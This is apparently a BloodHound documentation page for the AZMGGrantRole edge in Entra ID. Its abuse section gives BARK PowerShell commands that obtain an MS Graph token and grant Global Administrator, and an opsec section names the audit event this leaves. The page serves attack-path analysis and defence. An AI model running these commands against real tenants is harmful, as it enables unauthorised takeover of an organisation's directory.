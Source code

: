 ---
title: AZMGGrantRole
description: "This edge is created during post-processing."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


 It is created against all Entra ID admin roles when a Service Principal has the following MS Graph app role assignment:

* RoleManagement.ReadWrite.Directory

This privilege allows the Service Principal to promote itself or any other principal to any Entra ID admin role, including Global Administrator.

## Abuse Info

To abuse this privilege, you can promote a principal you control to Global Administrator using BARK’s New-EntraRoleAssignment. This function requires you to supply an MS Graph-scoped JWT associated with the Service Principal that has the privilege to grant Entra ID admin roles. There are several ways to acquire a JWT. For example, you may use BARK’s Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT by supplying a Service Principal Client ID and secret:

```bash
$MGToken = Get-MSGraphTokenWithClientCredentials `
    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
    -ClientSecret "asdf..." `
    -TenantName "contoso.onmicrosoft.com"
```
Then use BARK’s New-EntraRoleAssignment function to grant the Entra ID role to your target principal:

```bash
New-EntraRoleAssignment `
    -PrincipalID "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
    -RoleDefinitionId "62e90394-69f5-4237-9190-012177145e10" `
    -Token $MGToken
```
If successful, the output will include the principal ID, the role ID, and a unique ID for the role assignment.

## Opsec Considerations

When you assign an Entra ID admin role to a principal using this privilege, the Azure Audit log will create an event called “Add member to role outside of PIM (permanent)”.

## References

* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
